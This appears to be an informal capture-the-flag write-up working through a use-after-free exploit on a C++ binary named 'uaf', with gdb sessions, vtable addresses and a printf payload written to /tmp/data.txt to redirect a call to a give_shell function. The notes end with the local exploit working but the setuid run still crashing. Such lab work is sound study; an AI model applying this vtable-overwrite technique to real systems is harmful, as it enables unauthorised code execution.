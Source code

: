 `!printf "%b" '\xe2\x12\x40\x00\x00\x00\x00\x00' > /tmp/data.txt`
When adding 0x8 to that data, we get the 0x4012ea address 

- Andd still seg fault. Let's see what happends in the wild.

- I set a break point as following `x/i 0x401153`.
reading rax leads to 0x40144a - looked into the vtable of m and this is acctualy the address of Man::introduce. I am VERY close. There are a few more other stuff happening before the function call, and my address is probably not good. Let's check.

- I looked into what the address in the wild looks like in the line of the seg fault (0x4011)

`!printf "%b" '\xe2\x12\x40\x00\x00\x00\x00\x00' > /tmp/data.txt`

- Ok in order to make my life less misrable - I used 
"set disassembly-flavor intel" to make the assembly easier to disassbmle

- NICE! Got a lead. I saw that on the wild, rax holds some kind of value, THAT IS NOT the address where introduce is, but a POINTER to the address. So the following line comes up:
`0x0000000000401142 <+284>:   mov    rax,QWORD PTR [rax]`

The thing there, is that rax is changed with the value of the data inside of the pointer that rax holds.
I did some digging, in the wild the address originaly inside of rax is 0x401670. Looking inside of this address we find:
```
p/x *0x401670
0x40144a
```
This address is the introduce address!! I was looking into it and the 0x401670 address is inside the vtable
0x401668 <_ZTV3Man+16>: 0x4012ea <Human::give_shell()>  0x40144a <Man::introduce()>

If 0x401670 is introduce, then 0x401668 must be give_shell!
I ran `p/x *0x401668` and indeed got the give_shell function value!
Let's try it then!

- YEAHHHHHHHH it work with my symboled binary!! I RAN CODE! I HAVE SHELLLLL!!

- BUT I can't get the flag because my binary is not suid.


- It's the money time, let's go!
- Running the 
```
./uaf 42 /tmp/data.txt
free
after
after
use!
```
- ANDD no. it got seg fault
- OK I disassembled the code, used a break point in the line of "mov rax, [rax]"
then I read the value of rax - 0x827ca0
SOO TECHINCLY - using this address I can make my shellcode work.

- In order to understand where in the code I am, I crashed my code (free, then use) - it was this line:
`=> 0x0000000000401149 <+291>:   mov    rax,QWORD PTR [rax]`
